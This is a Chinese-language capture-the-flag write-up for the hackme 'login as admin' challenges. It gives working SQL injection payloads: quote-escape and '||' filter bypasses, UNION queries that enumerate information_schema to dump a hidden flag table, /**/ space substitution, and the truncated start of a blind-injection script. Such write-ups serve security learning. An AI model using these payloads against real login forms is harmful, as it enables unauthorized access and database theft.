

[src = hackme] loginasadmin 系列
题目描述
login as admin 0： SQL Injection!
login as admin 0.1： Grab the hidden flag
Login as Admin 1：Please login as admin.
Tips: SQL Injection but sqlmap not working anymore.
Update: Source code is available now.
Scanner WON’T WORK
login as admin 1.2：
Get another flag
Tips: boolean-based SQL injection, information_schema
WP
SQL注入。题目还提供了源码，所以查看，发现进行了一些过滤。
Login as Admin 0
1 | function safe_filter($str) |
本题的关键就是绕过这些过滤。strstr() 函数搜索字符串在另一字符串中是否存在，如果是，返回该字符串及剩余部分，否则返回 FALSE。
一般情况我们可以通过输入
admin’ or 1=1# 来进行注入(密码部分任意填写，因为#注释掉后面的查询条件)，因为sql语句为：
1 | $sql = sprintf("SELECT * FROM `user` WHERE `user` = '%s' AND `password` = '%s'", |
此时如果没有过滤，查询变为：
1 | SELECT * FROM `user` WHERE `user` = 'admin' or 1=1#' AND `password` = '%s' |
可以注入，但是现在过滤后，“or 1=1”不能使用，这个可以通过“||”绕过（其实也可以用2=2绕过），所以改为
1 | admin' || 1=1# |
其中的’被取代为“\\'”，所以查询变为：
1 | SELECT * FROM `user` WHERE `user` = 'admin\' || 1=1#' AND `password` = '%s' |
语法错误，“’”没有被闭合。可以通过在admin后再加一个\进行转义，将\\‘中的第一个\转义,即
1 | admin\' || 1=1#。 |
则查询语句变为：
1 | SELECT * FROM `user` WHERE `user` = 'admin\\' || 1=1#' AND `password` = '%s' |
可以进行注入，结果如图：
说明登录的不是管理员账号，从源代码的注释可以看到一下信息：
1 | // table schema |
所以表中有一列为is_admin确定了是否为管理员，我们拿到的数据库的第一行返回的用户并不是管理员，所以我们需要查看返回的其他行，通过limit 1,1来限制。我们去第2个输出。
注入语句变为：admin\‘ || 1=1 limit 1,1#。再进行注入得到flag：

Login as Admin 0.1
同时提示flag2在数据库中，所以需要通过SQLi来获取数据库里面隐藏的其他flag。其实第一个flag的值已经提示了需要使用UNION查询：
我们先来测试页面显示的是查询结果的第几列：
注入语句为：admin\‘ union select 1,2,3,4#
返回页面如下：
2被回显，说明回显的是第2列，我们就利用2的位置显示我们需要的数据，我们演示全部过程：
- 查数据库名字：
1 | \' union select 1,database(),3,4# |
得到数据库名字为：login_as_admin0
2. 查询表名：
1 | \' union select 1,(select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA="login_as_admin0"),3,4# |
得到有两个表：h1dden_f14g,user
可以看出隐藏的flag应该在h1dden_f14g表中。
3. 查询表的列名：
1 | \' union select 1,(select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME="h1dden_f14g"),3,4# |
得到就只有1列：
the_f14g
4. 查询该列的具体内容：
1 | \' union select 1,(select the_f14g from login_as_admin0.h1dden_f14g),3,4# |
得到flag：
Login as Admin 1
查看源代码，发现过滤部分。关键处为：
1 | function safe_filter($str) |
过滤了空格，我们可以用/**/来代替空格进行绕过，其他和前面一样，payload如下：
1 | admin\'/**/or/**/2=2/**/limit/**/1,1# |
得到flag：
Login as Admin 1.2
同样的绕过方式，但是这一题无回显了，采取bool盲注，脚本如下：
1 | import requests |
[知识点]
典型的SQLi注入流程，堪称教学式SQLi。